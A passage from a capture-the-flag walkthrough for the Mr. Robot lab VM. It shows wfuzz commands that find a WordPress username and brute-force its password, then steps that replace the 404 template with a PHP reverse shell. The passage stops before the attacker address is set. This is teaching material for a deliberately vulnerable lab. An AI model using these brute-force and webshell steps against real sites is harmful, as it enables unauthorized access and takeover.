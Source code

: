    ```shell
    wfuzz -c -z file,wordlist.txt --hs "Invalid username" \
    -d "log=FUZZ&pwd=password" http://mrrobot/wp-login.php
    ```

24. It looks like we have a working username: `Elliot`. If you already tried this before running `wfuzz`, good for you!

25. Try logging with your browser using `Elliot` as the username and `pass` as the password, so we can see what message we get when the password is incorrect. We'll modify the `wfuzz` command so that it guesses the pwd field, looking for "password you entered" to mean it got it wrong.  Let's try guessing passwords now.

    ```shell
    wfuzz -c -z file,wordlist.txt --hs "password you entered" \
    -d "log=Elliot&pwd=FUZZ" http://mrrobot/wp-login.php
    ```

26. This wfuzz run will produce the password `ER28-0652`.

27. Use the username `Elliot` and the password `ER28-0652` to log into Wordpress, the application hosting Elliot's site.

28. On the left side of the browser window, click "Appearance", then look below that button to click on the word "Editor". If you don't see "Appearance," you may need to widen the browser window.

29. On the right side of the screen, find the `404 Template` and select it, if it hasn't already been selected.  404 pages are rendered when a requested URL doesn't exist.

30. We're going to replace the normal `404.php` page with a PHP reverse shell.  Switch back to a terminal window and a look at what Kali has to take offer in `/usr/share/webshells`:

    ```shell
    cd /usr/share/webshells
    ls
    ```

31. We have webshell directories for a number of different languages! Look at the PHP options:

    ```shell
    ls php/
    ```

32. Now, let's use the PHP reverse shell.  Copy it back to `/root` so we can tune it.

    ```shell
    cp php/php-reverse-shell.php ~/
    ```

33. Let's edit that reverse shell:

    ```shell
    cd ~/
    mousepad php-reverse-shell.php
    ```

34. Find these two lines (usually at lines 49 and 50), which tell the web shell what IP address and port it should connect to on our system:
